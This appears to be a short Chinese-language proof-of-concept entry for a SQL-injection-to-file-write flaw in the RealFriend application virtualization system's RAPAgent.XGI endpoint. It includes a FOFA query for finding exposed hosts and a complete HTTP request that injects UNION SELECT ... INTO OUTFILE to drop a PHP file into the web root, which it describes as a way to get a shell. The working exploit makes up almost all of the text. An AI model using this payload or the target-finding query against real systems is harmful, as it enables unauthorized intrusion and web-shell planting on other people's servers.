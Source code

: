 ## 瑞友应用虚拟化系统-RAPAgent存在命令执行漏洞

其实就是SQL注入漏洞写入文件getshell

## fofa
```
title="瑞友天翼－应用虚拟化系统"
```

## poc
```
/RAPAgent.XGI?CMD=GETApplication&AppID=APP00000001&Language=ZH-CN&User=admin&PWD=e10adc3949ba59abbe56e057f20f883e&AuthType=0&Computer=WIN-1TLJMBOFIT6%27%20union%20select%200x3c3f70687020706870696e666f28293b203f3e,2%20INTO%20OUTFILE%20%27C:/Program+Files+(x86)/RealFriend/Rap+Server/WebRoot/custom/InfoPage1.files/poctest.php%27--%20-&Finger=A45A2E5E3&IP= HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=53aiv0f86qi8v2v0ncfeg110f3; CookieLanguageName=ZH-CN
Connection: close
```


## 漏洞来源
- https://mp.weixin.qq.com/s/VvYlKqRmW4h0vnuQKER-6w
